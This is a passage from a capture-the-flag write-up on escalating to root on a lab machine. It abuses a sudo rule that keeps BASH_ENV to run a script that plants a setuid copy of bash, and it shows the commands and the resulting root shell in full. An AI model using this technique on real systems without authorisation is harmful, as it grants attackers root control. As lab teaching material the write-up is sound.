 Looing at `sudo -l` output we can see, that there's some `systeminfo` program that we can execute with root priviliges

That program is actually a simple bash script:

```bash
hish@environment:~$ cat /usr/bin/systeminfo
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

Here I lost some time, thinking where or how could we hijack execution of these commands, since they are running as root. But after checking `sudo -l` again, I see that I missed crucial `env_keep+="ENV BASH_ENV"` inside. tl;dr it means that we can overwrite bash's internal environment variable, so when we call for `/usr/bin/systeminfo` we could pass our own variable with path to malicious script that will get a root shell when trying to execute bash binary.

### BASH_ENV

Searching web for BASH_ENV gives us this explanation:

```
    BASH_ENV is an environment variable in Unix-like systems that 
    specifies the file to be executed when a non-interactive shell is started. 
    It allows users to set up a specific environment for scripts
    or commands run in that shell.
```

### Exploit

Now to get root, we'll need to create our own shell script that will copy bash binary with root privileges and then pass this script in `BASH_ENV` variable:

```bash
hish@environment:~$ cat > /tmp/root.sh << 'EOF'
cp /bin/bash /tmp/root-bash
chmod +s /tmp/root-bash
EOF
hish@environment:~$ chmod +x /tmp/root.sh
hish@environment:~$ sudo BASH_ENV=/tmp/root.sh systeminfo && /tmp/root-bash -p

--- systeminfo output ---

root-bash-5.2# cd /root
root-bash-5.2# whoami
root
root-bash-5.2# cat root.txt
********************************
root-bash-5.2#
```
